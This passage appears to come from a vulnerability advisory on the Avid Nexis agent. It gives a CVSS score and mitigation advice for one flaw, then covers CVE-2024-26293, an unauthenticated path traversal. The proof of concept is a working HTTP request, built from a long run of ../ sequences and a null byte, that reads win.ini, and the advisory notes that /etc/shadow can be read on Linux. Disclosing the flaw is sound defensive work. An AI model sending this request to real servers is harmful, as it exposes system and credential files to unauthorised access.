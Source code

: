 ### Mitigation

Again, as we are not aware of an official fix as of today, we recommend users of Avid Nexis to restrict access to the agent port (default 5015) using an allowlist approach.

### CVSS

DriveByte Calculated the following CVSS 4.0 base metrics:

7.1 (CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:N/VI:L/VA:H/SC:N/SI:N/SA:N)


## Unauthenticated Path Traversal (Linux/Windows): CVE-2024-26293

### Description
The Application is vulnerable to an Unauthenticated Path Traversal. This affects the agent
installed on Linux and Windows alike. As the application runs per default with the highest
privileges (root/NT_AUTHORITY SYSTEM), attackers are able to obtain critical files like /etc/
shadow etc. This vulnerability in gSOAP 2.8 was already known before. [This link]("https://www.exploit-db.com/exploits/47653") shows that
this vulnerability is already known since at least 2019. However, it seems that the gSOAP
version of the Avid Nexis Agent was not up-to-date.

### Proof of Concept

The vulnerability can be triggered with the following GET request (shortened):

```http
GET /../../../../../../../../../../../../../../../../windows/win.ini%00/common/lib/jquery/jquery-1.11.3.min.js HTTP/1.1
Host: 192.168.40.129:5015
...
```
As we can see the response shows the files contents:

```http
HTTP/1.1 200 OK
Server: gSOAP/2.8
Content-Type: application/x-javascript
Content-Length: 92
Connection: close
Expires: Tue, 16 Jul 2024 11:56:11 GMT

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
This can also be reproduced on Linux systems.
